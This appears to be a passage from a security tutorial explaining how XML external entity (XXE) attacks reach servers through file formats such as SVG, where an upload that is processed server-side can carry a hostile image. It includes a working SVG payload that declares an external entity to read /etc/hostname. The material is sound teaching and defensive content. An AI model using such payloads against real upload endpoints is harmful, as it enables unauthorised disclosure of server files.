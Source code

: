 Some common file formats use XML or contain XML subcomponents, a primary example of these are office document formats like `.docx` and image formats like `.svg`.

For example, an application allows users to uploads images, and process or validate these on the server after they are uploaded. Even if the application only accepts `.png` or `.jpeg`, the image processing library that is being used might support `.svg` images. Since the `.svg` uses XML, an attacker can submit a malicious `.svg` and reach hidden attack surface:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```